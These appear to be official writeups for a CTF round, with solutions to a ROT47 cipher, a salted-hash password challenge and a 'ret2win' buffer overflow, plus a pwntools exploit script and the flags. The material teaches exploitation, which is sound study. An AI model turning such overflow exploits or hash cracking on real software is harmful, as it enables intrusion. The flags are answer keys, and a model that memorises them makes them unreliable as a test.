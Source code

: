 # Round 9 Official Writeups

The following writeups were provided by the respective challenge authors

## Sanity Check Round 9

Get file, go to Youtube link, scroll to bottom of desc, copy and submit flag

## Rotations

This cipher is a modern twist on the Caesar cipher, with a rotation through ASCII characters. Rotate each character by a rotation of 47 to get `ictf{l3ts_st4rt_0ut_ez_w1th_s0me_r0t47!}`.  (https://gchq.github.io/CyberChef/#recipe=ROT47(47)&input=OjRFN0w9YkVEMERFY0NFMF9GRTA2SzBIYEU5MERfPjYwQ19FY2ZQTg)

## Salty

Upon inspection, we notice that the program simulates a bash shell, but if the input's hash, salted with "salt", matches a XOR encrypted string, the program will print out a link to a pastebin with the password being the password that makes the hash. Using Crackstation or another hash cracking tool, we find that the salted hash corresponds to "saltwater", and without the salt of "salt" the password becomes just "water". So, we enter that into the program, go to https://pastebin.com/vU76aJvC (the link the program gives), and enter in the password "water". We get the flag: ictf{s4lty_w4ter_1nd33d_4f285a3}

## ret2win

There are 2 `scanf()` functions in this binary, both susceptible to buffer overflow. First `scanf()` is directly accessible, but accessing the second one requires you to overwrite a value on the stack.
The first `scanf()` overflows very little and is not enough to reach the RIP.

```python
from pwn import *

binary = ELF('./ret2win', checksec=False)
p = binary.process()

win = binary.symbols['win']

offset = b'A' * 12
payload = offset + p64(0x1337c0d3)

p.sendline(payload)

payload2 = b'A' * 36 + p64(win)
p.sendline(payload2)

p.interactive()
```
